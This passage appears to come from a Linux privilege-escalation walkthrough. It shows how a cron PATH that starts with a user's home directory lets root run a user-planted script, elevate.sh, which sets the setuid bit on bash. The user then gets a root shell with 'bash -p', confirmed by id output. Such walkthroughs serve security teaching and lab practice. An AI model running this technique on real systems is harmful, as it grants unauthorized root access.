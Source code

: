 Set up the cron job:

```sh
SHELL=/bin/bash
PATH=/home/user:/usr/local/sbin:/usr/local/bin:/sbin:/bin:/usr/sbin:/usr/bin

* * * * * root elevate.sh
```

> Note: The PATH variable starts with **/home/user** which is our user's home directory.

Wait a minute, then "root" will run the script "elevate.sh":

```shell
watch -n 1 ls -l /usr/bin/bash
```

This output is what we want to get:

```sh
-rwsr-sr-x
```

Then we can bash shell the `setuid` bit as the `root` user by passing the `-p` flag:

```shell
❯ bash -p
```

We can confirm this by using `id`:

```sh
bash-5.1# id
uid=1000(user) gid=1000(user) euid=0(root) egid=0(root) groups=0(root),4(adm),24(cdrom),27(sudo),30(dip),46(plugdev),122(lpadmin),135(lxd),136(sambashare),1000(user)
```